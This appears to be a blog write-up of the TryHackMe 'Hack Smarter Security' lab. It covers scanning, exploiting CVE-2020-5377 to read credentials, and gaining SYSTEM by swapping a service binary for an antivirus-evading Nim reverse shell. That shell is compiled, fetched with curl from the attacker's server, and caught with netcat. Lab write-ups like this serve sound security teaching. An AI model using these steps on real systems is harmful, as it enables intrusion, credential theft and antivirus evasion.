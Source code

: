 ```yaml
---
title: "TryHackMe: Hack Smarter Security"
collection: publications
permalink: /publication/Hacksmartersec
excerpt: 'This is a free room from TryHackMe'
date: 2024-03-19
venue: '03-19'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/Hack%20Smarter%20Security_header.png)

**LINK:** [Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity)

## Enumeration 

* Let's start off with an nmap scan :

```bash
# nmap -sV -sC -T4 10.10.11.112
Nmap scan report for 10.10.11.112 (10.10.11.112)
Host is up (0.058s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
|_06-28-23  03:00PM              1022126 stolen-passport.png
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 0dfadadec9dd998d2e8eeb3b93ffe26c (RSA)
|   256 5d0cdf3226d371a28e6e9a1c43fc1a03 (ECDSA)
|_  256 c425e709d6c9d9865f6e8a8bec134a8b (ED25519)
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HackSmarterSec
1311/tcp open  ssl/rxmon?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Mon, 18 Mar 2024 14:19:47 GMT
|     Connection: close
|     
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=hacksmartersec
| Not valid before: 2024-03-17T14:16:19
|_Not valid after:  2024-09-16T14:16:19
| rdp-ntlm-info: 
|   Target_Name: HACKSMARTERSEC
|   NetBIOS_Domain_Name: HACKSMARTERSEC
|   NetBIOS_Computer_Name: HACKSMARTERSEC
|   DNS_Domain_Name: hacksmartersec
|   DNS_Computer_Name: hacksmartersec
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-18T14:20:01+00:00
|_ssl-date: 2024-03-18T14:20:06+00:00; 0s from scanner time.
```

- The scan revealed that our target is a Windows machine, and we found 5 open ports.
- We also discovered that ``FTP`` anonymous login was enabled but didn't find anything useful in the files.
- Moving on, we checked the website running on port 80, which turned out to be ``IIS 10.0``. However, our attempts to find interesting files or directories were unsuccessful.

- Moving on, we checked port ``1311`` where we found Dell OpenManage version 9.4.0.2 running.

![hacksmartersec1](/images/hacksmartersec1.png)

- After digging deeper, we learned that this version was vulnerable to CVE-2020-5377, known as ``Arbitrary File Read``.
- I found this [exploit](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2020-5377_CVE-2021-21514) that will help us read files on the target.
- A quick search reveals that the root folder for the IIS default website is located at ``C:\inetpub\wwwroot``. the idea here is to try to read the ``web.config`` file which is an XML file containing rules for a particular on the web server. this file may contains credentials.

## User Flag : 

- based on the title of the webserver on port 80 which is hacksmartersec, i assumed that the ``web.config`` file is located at `` C:\inetpub\wwwroot\hacksmartersec\web.config``.

![hacksmartersec2](/images/hacksmartersec2.png)

- Bingoo. Now we have the credentials so our next step is to login via ssh and get the user flag.

![hacksmartersec3](/images/hackersmartsec3.png)

## Root Flag : 

- For the privilege escalation part, i used ``winPEAS`` but the antivirus picked it up. So, i switched to [``PrivescCheck.ps1``](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1) instead. I found that the ``spoofer-scheduler`` service's binary was running with a lot of permissions as LocalSystem.

```
# Running PrivescCheck 

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended"
```
![hacksmartersec4](/images/hacksmartersec4.png)

- The plan now is to stop the ``spoofer-scheduler`` service. Then, we compile a reverse shell to an exe with same name used for the service's binary, overwrite the service binary with our reverse shell, and finally start the service and get a super-powered shell as SYSTEM.

- Stopping the ``spoofer-scheduler`` service . 

![hacksmartersec5](/images/hacksmartersec5.png)

- I couldn't just use a regular sneaky shell because the antivirus would catch me. So, I found this [Nim](https://github.com/Sn1r/Nim-Reverse-Shell/blob/main/rev_shell.nim) reverse shell that's good at hiding from antivirus software (don't forget to change your ip address).

- Now it's time to compile it to an exe named ``spoofer-scheduler.exe`` to match the service's binary. Then, we put it on the target system, ready to run when we restart the service.

```
# Compiling the reverse shell
nim -c -d:mingw --app:gui -o:spoofer-scheduler.exe nim_revshell.nim
```
![hacksmartersec6](/images/hacksmartersec6.png)

```
# Start a web server on your machine

python3 -m http.server <PORT>
```

```
# Download the spoofer-scheduler.exe on target (make sure you are in C:\Program Files (x86)\spoofer)

curl http://<server-ip>:PORT/spoofer-scheduler.exe -o spoofer-scheduler.exe
```

- Now start a netcat listener to get the reverse shell after starting the service

```
nc -nlvp <listener-port>
```

```
# start the service

sc start spoofer-scheduler
```

![hacksmartersec7](/images/hacksmartersec7.png)

- we get a connection back to our listener 

![hacksmartersec8](/images/hacksmartersec8.png)










